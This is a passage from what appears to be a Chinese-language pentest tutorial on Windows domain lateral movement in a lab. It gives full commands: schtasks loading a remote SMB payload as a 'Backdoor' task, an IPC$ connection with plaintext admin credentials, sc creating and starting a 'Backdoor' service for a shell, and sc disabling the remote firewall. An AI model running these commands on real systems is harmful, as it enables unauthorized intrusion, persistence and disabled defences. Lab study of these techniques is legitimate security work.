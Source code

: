 + 在域内一台服务器上搭建SMB匿名服务

已经在第一节中介绍了如何搭建SMBSERVER，跳过

+ 使用UNC路径加载目标

```
schtasks /Create /S 192.168.30.10 /TN Backdoor /SC minute /MO 1 /TR \\192.168.30.20\smb\smb-plan-test.exe /RU System  /F /U Administrator /P uu2fu3o@admin
```

![smb-test-pan](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/smb-test-pan.png)

注意你的smb服务是否已经设定了文件目录，如果有则不需要再设置一次

![smb-test-plan-2-shell](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/smb-test-plan-2-shell.png)

一会就能拿到很多会话(实验完记得关闭计划任务或者删除)

## 利用系统服务

### 创建远程服务，利用SC进行横向

```
net use \\192.168.30.10\IPC$ uu2fu3o@admin /user:Administrator
```

![ipc-built-pc_to_dc](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/ipc-built-pc_to_dc.png)

+ 利用已经建立的共享服务将恶意文件上传到服务器

![system-server-build](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/system-server-build.png)

+ 利用已建立的IPC共享在远程服务器创建系统服务，执行以下命令

```shell
sc \\192.168.30.10 create Backdoor binpath= "cmd.exe /k C:\system-server-build.exe"
#创建一个名为Backdoor的系统服务，为手动执行，binpath后需要有空格
```

+ 执行以下命令启动服务

```
sc \\192.168.30.10 start Backdoor
```

![system-server-build-paild-menu](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/system-server-build-paild-menu.png)

虽然看到这里失败了，但其实我们已经拿到shell了

![system-server-build-cs-shell](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/system-server-build-cs-shell.png)

通常在渗透流程中，我们运用该项技巧来关闭远程机器的防火墙，如下示例

```
sc \\192.168.30.10 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"   
sc \\192.168.30.10 start unablefirewall   
```

